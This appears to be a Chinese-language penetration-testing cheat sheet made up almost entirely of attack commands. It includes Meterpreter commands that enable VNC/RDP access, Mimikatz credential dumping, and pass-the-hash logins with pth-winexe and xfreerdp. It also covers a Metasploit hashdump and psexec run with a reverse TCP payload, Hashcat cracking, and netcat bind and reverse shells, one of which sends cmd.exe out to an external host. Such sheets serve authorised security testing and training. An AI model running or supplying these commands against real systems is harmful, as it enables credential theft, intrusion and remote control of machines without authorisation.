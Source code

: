 # Meterpreter VNC/RDP
	# https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/
	run getgui -u admin -p 1234
	run vnc -p 5043

----

# 使用 Mimikatz
获取 Windows 明文用户名密码

	git clone https://github.com/gentilkiwi/mimikatz.git
	privilege::debug
	sekurlsa::logonPasswords full
获取哈希值
	git clone https://github.com/byt3bl33d3r/pth-toolkit
	pth-winexe -U hash //IP cmd

或者

	apt-get install freerdp-x11
	xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP

在或者

	meterpreter > run post/windows/gather/hashdump
	Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:	8846f7eaee8fb117ad06bdd830b7586c:::
	msf > use exploit/windows/smb/psexec
	msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
	msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
	msf exploit(psexec) > exploit
	meterpreter > shell

-----

# 使用 Hashcat 破解密码

	hashcat -m 400 -a 0 hash /root/rockyou.txt
----

# 使用 NC 抓取 Banner 信息
	nc 192.168.0.10 80
	GET / HTTP/1.1
	Host: 192.168.0.10
	User-Agent: Mozilla/4.0
	Referrer: www.example.com
	<enter>
	<enter>
# 使用 NC 在 Windows 上反弹 shell
	c:>nc -Lp 31337 -vv -e cmd.exe
	nc 192.168.0.10 31337
	c:>nc example.com 80 -e cmd.exe
	nc -lp 80
	